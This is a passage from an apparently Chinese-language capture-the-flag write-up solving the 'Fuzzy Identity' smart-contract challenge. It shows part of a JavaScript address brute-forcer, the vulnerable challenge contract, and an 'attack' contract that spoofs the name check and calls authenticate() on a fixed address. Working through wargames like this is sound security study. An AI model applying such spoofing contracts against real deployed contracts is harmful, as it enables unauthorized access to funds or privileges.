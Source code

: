 ```javascript
        flag = false
        break
      }
    }
    count = count+ 1
    if (count % 100 == 0){
      console.log(count)
    }
  }
}
```

 拿到相应的私钥 以及 Nonce之后, 便可以部署 符合地址要求的attack合约了

相应的合约代码如下

```solidity
pragma solidity ^0.4.21;

interface IName {
    function name() external view returns (bytes32);
}

contract FuzzyIdentityChallenge {
    bool public isComplete;

    function authenticate() public {
        require(isSmarx(msg.sender));
        require(isBadCode(msg.sender));

        isComplete = true;
    }

    function isSmarx(address addr) internal view returns (bool) {
        return IName(addr).name() == bytes32("smarx");
    }

    function isBadCode(address _addr) internal pure returns (bool) {
        bytes20 addr = bytes20(_addr);
        bytes20 id = hex"000000000000000000000000000000000badc0de";
        bytes20 mask = hex"000000000000000000000000000000000fffffff";

        for (uint256 i = 0; i < 34; i++) {
            if (addr & mask == id) {
                return true;
            }
            mask <<= 4;
            id <<= 4;
        }

        return false;
    }
}

contract attack {
     function name() pure external returns (bytes32){
          return bytes32("smarx");
     }

     function auth() public {
         FuzzyIdentityChallenge use = FuzzyIdentityChallenge(0x7740ff10016819f29425D2ec989C523d676F668A);
         use.authenticate();
     }
```